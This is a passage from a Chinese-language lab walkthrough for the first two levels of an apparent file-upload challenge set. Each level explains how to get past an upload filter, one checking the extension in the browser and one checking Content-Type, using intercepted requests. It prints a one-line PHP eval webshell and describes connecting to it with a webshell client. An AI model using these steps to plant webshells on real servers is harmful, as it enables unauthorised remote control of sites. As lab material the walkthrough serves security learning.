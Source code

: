 

***
# Pass-01(前端绕过)
* 原理

    js前端校验文件后缀是否合法，可以通过禁用js或者抓包改包达到绕过的目的

* 步骤

    0.php一句话

    `<?php @eval($POST_['x']); ?>`

    1.向服务器上传.php一句话木马，发现上传被禁止

    [![Bl73Zt.jpg](https://s1.ax1x.com/2020/10/28/Bl73Zt.jpg)](https://imgchr.com/i/Bl73Zt)

    2.将含马文件改为允许上传的后缀名，例如1.jpg

    3.打开代理，上传该文件并且进行抓包

    [![Bl7Yi8.jpg](https://s1.ax1x.com/2020/10/28/Bl7Yi8.jpg)](https://imgchr.com/i/Bl7Yi8)

    4.然后对其后缀进行更改为.php，页面会提示上传成功

    5.然后需要知道上传到了什么路径，点击图片或者拖动图片新建一个标签页

    [![Bl7tJS.jpg](https://s1.ax1x.com/2020/10/28/Bl7tJS.jpg)](https://imgchr.com/i/Bl7tJS)

    知晓路径，然后用菜刀连接

***
# Pass-02(content-type)
* 原理

    发现利用上一题改后缀的方法也是可以绕过的，但是查看源码发现，这一题考的是content-type验证

    [![Bl70Ln.jpg](https://s1.ax1x.com/2020/10/28/Bl70Ln.jpg)](https://imgchr.com/i/Bl70Ln)

    所以我们利用修改content-type的方法进行绕过

* 步骤

    1.这次可以直接对.php文件进行上传

    2.抓包

    [![Bl7DZq.jpg](https://s1.ax1x.com/2020/10/28/Bl7DZq.jpg)](https://imgchr.com/i/Bl7DZq)

    3.对content-type属性值进行修改，因为这一次检验的是文件的MIME类型

    我们将其改为image/gif 进行绕过

    4.使用菜刀连接


***
# Pass-03(畸形后缀)
